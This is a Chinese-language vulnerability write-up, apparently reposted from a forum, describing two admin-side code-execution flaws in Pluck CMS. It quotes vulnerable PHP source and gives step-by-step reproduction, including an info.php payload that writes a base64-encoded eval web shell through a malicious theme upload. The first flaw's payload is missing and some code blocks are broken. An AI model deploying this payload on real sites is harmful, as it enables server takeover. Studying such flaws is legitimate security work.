










# Pluck CMS后台另两处任意代码执行

> 原文：[https://www.zhihuifly.com/t/topic/3094](https://www.zhihuifly.com/t/topic/3094)

# Pluck CMS后台另两处任意代码执行

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

#### 第一处：过滤不严导致单引号逃逸

在function.php里面blog_save_post()函数

```
function blog_save_post($title, $category, $content, $current_seoname = null, $force_time = null) {
    //Check if 'posts' directory exists, if not; create it.
    if (!is_dir(BLOG_POSTS_DIR)) {
        mkdir(BLOG_POSTS_DIR);
        chmod(BLOG_POSTS_DIR, 0777);
    }

```
//Create seo-filename
$seoname = seo_url($title);

//Sanitize variables.
$title = sanitize($title, true);
$content = sanitizePageContent($content, false);

if (!empty($current_seoname)) {
    $current_filename = blog_get_post_filename($current_seoname);
    $parts = explode('.', $current_filename);
    $number = $parts[0];

    //Get the post time.
    include BLOG_POSTS_DIR.'/'.$current_filename;

    if ($seoname != $current_seoname) {
        unlink(BLOG_POSTS_DIR.'/'.$current_filename);

        if (is_dir(BLOG_POSTS_DIR.'/'.$current_seoname))
            rename(BLOG_POSTS_DIR.'/'.$current_seoname, BLOG_POSTS_DIR.'/'.$seoname);
    }
}

else {
    $files = read_dir_contents(BLOG_POSTS_DIR, 'files');

    //Find the number.
    if ($files) {
        $number = count($files);
        $number++;
    }
    else
        $number = 1;

    if (empty($force_time))
        $post_time = time();
    else
        $post_time = $force_time;
}

//Save information.
$data['post_title']    = $title;
$data['post_category'] = $category;
$data['post_content']  = $content;
$data['post_time']     = $post_time;

save_file(BLOG_POSTS_DIR.'/'.$number.'.'.$seoname.'.php', $data);

//Return seoname under which post has been saved (to allow for redirect).
return $seoname; 
``` `}` 
```

其中

```
$data['post_title']    = $title;
$data['post_category'] = $category;
$data['post_content']  = $content;
$data['post_time']     = $post_time; 
```

$title $content 均被过滤，$post_time不可控，$category可控

所以只要把$cont2变成我们的payload即可





#### 第二处：安装模版+文件包含导致任意命令执行

很多CMS都会在安装模版的时候getshell，那么这里笔者也发现了类似的漏洞。

##### 1、直接访问失败

首先准备一个shell.php里面是我们的phpinfo();

然后打包成shell.zip，直接上传主题




发现确实上传并且解压成功

但是由于目录下有.htaccess文件，直接把php设置为不可解析，所以无法直接访问





##### 2、文件包含突破

所以就想到需要找一个位置对其进行包含，来达到执行的目的。

首先看到admin.php中关于theme的部分



跟进 data/inc/theme.php，发现调用了get_themes()方法



跟进 functions.all.php，查看get_themes()方法

```
function get_themes() {
    $dirs = read_dir_contents('data/themes', 'dirs');
    if ($dirs) {
        natcasesort($dirs);
        foreach ($dirs as $dir) {
            if (file_exists('data/themes/'.$dir.'/info.php')) {
                include_once ('data/themes/'.$dir.'/info.php');
                $themes[] = array(
                    'title'   => $themename,
                    'dir' => $dir
                );
            }
        }
        return $themes;
    }
    else
        return false;
} 
```

发现会遍历data/themes/下所有主题目录，并且包含他的info.php文件

此时info.php可控，就导致了任意代码执行。

##### 3、利用方法

首先准备一个info.php

```
<?php
file_put_contents('x.php',base64_decode('PD9waHAgQGV2YWwoJF9HRVRbJ21yNiddKTs/Pg=='));
?> 
```

然后打包压缩成shell.zip

上传安装主题，然后点击回到主题页，此时触发文件包含。





